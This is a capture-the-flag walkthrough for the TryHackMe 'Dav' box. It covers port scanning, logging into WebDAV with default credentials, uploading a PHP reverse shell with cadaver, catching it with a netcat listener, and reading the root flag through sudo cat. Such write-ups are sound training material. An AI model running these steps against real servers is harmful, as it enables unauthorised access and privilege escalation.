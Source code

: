 # 'Dav' box writeup
## Dav is a CTF box created by stuxnet and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [WebDAV](https://en.wikipedia.org/wiki/WebDAV), [Dav default credentials](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) and [Cadaver, the WebDAV client](https://docs.oracle.com/html/E10235_03/webdav007.htm)
# ![bg](images/background.jpeg?raw=true "Title")

## Foothold
+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.62.166``

+ **From our result, we can see that the 80 port is open, which is running an Appache with a default page**

# ![nmap](images/nmap_dirb_scan.jpg?raw=true "nmap")

+ **Let's run a gobuster search too and see our results. It seems that a webdav service is runnning**

``gobuster dir -u http://10.10.62.166/ -w /usr/share/wordlists/dirb/common.txt``

# ![dirb](images/nmap_dirb_scan2.jpg?raw=true "dirb")

**Navigating to the /webdav directory, the login page shows up. We need some credentials, and searching on google we can find some**

# ![login](images/login.png?raw=true "login")

``user: wampp``

``pass: xampp``

+ **After we log in, we can see a file named `passwd.dav` inside the directory**

# ![webdav](images/webdav.jpg?raw=true "webdav")

+ **Reading the file, it seems to be some credentials with a hashed password. Trying to unhashed it, i realised it's nothing that we can do with it so i continued to read about WebDAV service. It has some similarities with the ftp, among with the cadaver: we can upload some files in that /webdav directory. Let's login with the cadaver, the WebDAV client, using the same default credentials**

``cadaver http://10.10.62.166/webdav/``

``Username: wampp``

``Password: xampp``

+ **Now, let's try to upload a reverse php shell. I use the [pentestmonkey reverse shell](https://github.com/pentestmonkey/php-reverse-shell). Get it and modify the $ip parameter with your tryhackme tunneled ip and then upload it on our webdav directory**

``put php-reverse-shell.php``

# ![php](images/php-reverse-shell.jpg?raw=true "php")

# ![php](images/uploaded.jpg?raw=true "php")

+ **It seems like our reverse shell was uploaded, so let's start a nc listener and access our php shell file**

``nc -lvnp 1234``

``http://10.10.62.166/webdav/php-reverse-shell.php``

# ![werein](images/werein.jpg?raw=true "in")

# User escalation

**And we're in. Let's spawn an interactive shell and read our first flag, located inside the home directory of the merlin user**

``python -c 'import pty;pty.spawn("/bin/bash")'``

# ![in](images/usermer.jpg?raw=true "user")

# Root escalation

+ **Let's run a ``sudo -l`` command to see what commands cand www-data user can run**

# ![sudol](images/sudol.jpg?raw=true "sudol")

+ **It seems that the we can run the cat command with super user privileges so we can read our root flag**

``sudo cat /root/root.txt``

# ![root](images/rootflagoz.jpg?raw=true "root")
